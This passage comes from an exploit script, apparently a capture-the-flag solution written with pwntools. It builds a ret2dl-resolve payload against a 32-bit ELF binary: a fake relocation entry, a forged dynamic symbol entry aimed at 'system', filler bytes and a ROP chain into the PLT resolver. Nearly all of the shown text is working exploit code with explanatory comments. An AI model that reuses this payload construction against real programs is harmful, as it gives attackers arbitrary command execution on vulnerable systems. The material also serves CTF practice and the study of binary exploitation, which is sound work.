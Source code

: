 ```
payload += '\n'
p.send(payload)
#
################################

time.sleep(DELAY)

####### Second payload #########
#
### Fake Elf_Rel structure (relocation table entry)
#
## target_roffset: exit@plt. We never will need to call exit anyway,
# but I do just for fun.
payload2 = p32(0x0804a01c)
#
## target_rinfo
# Debugging indicates that target_rinfo must end in a 7 for the
# version lookup to work properly. Later I figured out why -- see the writeup.
#
payload2 += p32(target_rinfo) # 0x0002b507
#
###
#
## Some filler
payload2 += 'A'*16
#
#
### Fake dynamic symbol table entry. From elf.h:
'''
/* Symbol table entry.  */
typedef struct
{
  Elf32_Word        st_name;                /* Symbol name (string tbl index) */
  Elf32_Addr        st_value;                /* Symbol value */
  Elf32_Word        st_size;                /* Symbol size */
  unsigned char        st_info;                /* Symbol type and binding */
  unsigned char        st_other;                /* Symbol visibility */
  Elf32_Section        st_shndx;                /* Section index */
} Elf32_Sym;
'''
#0x2b1c (st_name). .dynstr is at 0x0804828c, so 0x0804828c + 0x2b1c = 0x0804ada8
# which is where "system" is stored.
#
payload2 += p32(target_symbol_offset_from_dynstr_base) #st_name
payload2 += 'CCCC' # I don't care about st_value
#
# During the competition, I just set this to pass the st_other check
# (had to be 0x0) without really understanding what the code was doing.
# But I now recognize that having the visibility set to 0 means that
# we continue looking up the symbol.
payload2 += p32(0x0) * 2
### End of fake dynamic symbol table entry
#
#
### This part is just more filler, basically, to get me to the ROP chain.
payload2 += 'A'*36
#
#
### Start of ROP chain #2.
## This is the only entry in the chain
## because we immediately call system here.
payload2 += p32(call_runtime_resolve_addr) # PLT0
payload2 += p32(reloc_index) #
```